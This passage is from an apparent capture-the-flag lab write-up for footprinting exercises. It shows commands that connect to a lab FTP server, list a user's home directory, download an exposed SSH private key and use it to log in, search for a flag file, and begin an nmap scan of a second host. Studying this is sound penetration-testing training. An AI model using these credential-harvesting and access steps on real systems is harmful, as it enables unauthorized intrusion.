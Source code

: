     ```bash
    ftp 10.129.111.87 2121
    ```

    After login, we can explore in there.

    ```bash
    ftp> ls -a
    200 PORT command successful
    150 Opening ASCII mode data connection for file list
    drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 .
    drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 ..
    -rw-------   1 ceil     ceil          294 Nov 10  2021 .bash_history
    -rw-r--r--   1 ceil     ceil          220 Nov 10  2021 .bash_logout
    -rw-r--r--   1 ceil     ceil         3771 Nov 10  2021 .bashrc
    drwx------   2 ceil     ceil         4096 Nov 10  2021 .cache
    -rw-r--r--   1 ceil     ceil          807 Nov 10  2021 .profile
    drwx------   2 ceil     ceil         4096 Nov 10  2021 .ssh
    -rw-------   1 ceil     ceil          759 Nov 10  2021 .viminfo
    226 Transfer complete
    ```

    Based on `ls -a` output, we can see that it contains .ssh folder. That folder contain id_rsa which can be used to login ssh. So we download that file by using `get id_rsa` on the folder. Then we quit ftp session. To use `id_rsa`, we should change the file permission by using `chmod 600 id_rsa`. After that, we tried to ssh using specific method.

    ```bash
    ssh -o KexAlgorithms=diffie-hellman-group14-sha256 -o Ciphers=aes256-ctr -i id_rsa ceil@10.129.111.87 -v
    ```

    In there we can find the flag. This commands will find specific path of the flag.

    ```bash
    find / -type f -name "flag.txt" 2>/dev/null
    ```

# Footprinting Lab - Medium
## Challenges

1. Enumerate the server carefully and find the username "HTB" and its password. Then, submit this user's password as the answer.

    First, we enumerate using nmap.

    ```bash
    nmap -sV -sC 10.129.196.58 -v
    ```
    Here the output.
    
    ```bash
    PORT     STATE    SERVICE       VERSION
    111/tcp  open     rpcbind       2-4 (RPC #100000)
    | rpcinfo:
    |   program version    port/proto  service
    |   100000  2,3,4        111/tcp   rpcbind
    |   100000  2,3,4        111/tcp6  rpcbind
    |   100000  2,3,4        111/udp   rpcbind
    |   100000  2,3,4        111/udp6  rpcbind
    |   100003  2,3         2049/udp   nfs